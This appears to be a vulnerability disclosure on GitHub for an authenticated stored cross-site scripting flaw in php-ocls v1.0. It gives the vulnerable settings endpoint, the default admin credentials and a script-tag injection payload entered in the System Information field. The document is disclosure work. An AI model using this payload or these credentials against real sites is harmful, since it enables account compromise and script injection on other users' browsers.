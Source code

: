 # php-ocls<=v1.0 Authenticated Stored Cross-Site Scripting(XSS)

## Description

    php-ocls<=v1.0 /php-ocls/classes/SystemSettings.php?f=update_settings interface has a verified xss vulnerability

## source code

    php-ocls<=1.0
    Software Link: https://www.sourcecodester.com/php/16397/online-computer-and-laptop-store-using-php-and-mysql-source-code-free-download.html

## Author

    yangfan2@webray.com.cn inc  

## Proof of Concept

1. login system(default: admin:admin&123)

   /php-ocls/admin/login.php

| ![image-20240816163739350](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary File Upload.assets/image-20240816163739350.png) |
| ------------------------------------------------------------ |

2. System Information Settings

   input

   ```
   /><script>alert(1);</script>
   ```

| ![image-20240816165315627](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary Stored Cross-Site Scripting(XSS).assets/image-20240816165315627.png) |
| ------------------------------------------------------------ |

submit

| ![image-20240816165359397](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary Stored Cross-Site Scripting(XSS).assets\image-20240816165359397.png) |
| ------------------------------------------------------------ |


